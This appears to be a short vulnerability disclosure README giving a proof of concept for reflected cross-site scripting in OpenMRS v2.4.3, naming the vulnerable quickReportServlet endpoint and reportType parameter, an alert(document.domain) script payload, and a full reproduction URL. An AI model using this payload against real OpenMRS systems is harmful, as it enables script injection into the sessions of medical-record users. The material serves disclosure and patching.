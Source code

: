 # CCVE-2025-25929 - PoC

---

## Reflected XSS


OpenMRS v2.4.3 Build 0ff0ed allows attackers to execute arbitrary JavaScript or HTML by injecting a crafted payload into the reportType 
 parameter at the /openmrs/moduleServlet/legacyui/quickReportServlet endpoint

* Vulnerable Endpoint: /openmrs/moduleServlet/legacyui/quickReportServlet
* Vulnerable Param: reportType
* Payload: <script>alert(document.domain)</script>

---

### Steps to reproduce:

1.) Authenticate as any user who has access to View Quick Reports, in this case the Admin user.

2.) Proceed to http://localhost:8080/openmrs/moduleServlet/legacyui/quickReportServlet?reportType=RETURN+VISIT+DATE+THIS+WEEK%3Cscript%3Ealert(document.domain)%3C/script%3E&startDate=01%2F14%2F2025&endDate=01%2F15%2F2025&location= and observe reflected XSS within the reportType parameter:

![image](https://github.com/user-attachments/assets/cf915031-d93a-4d7a-9d72-6a750618088b)



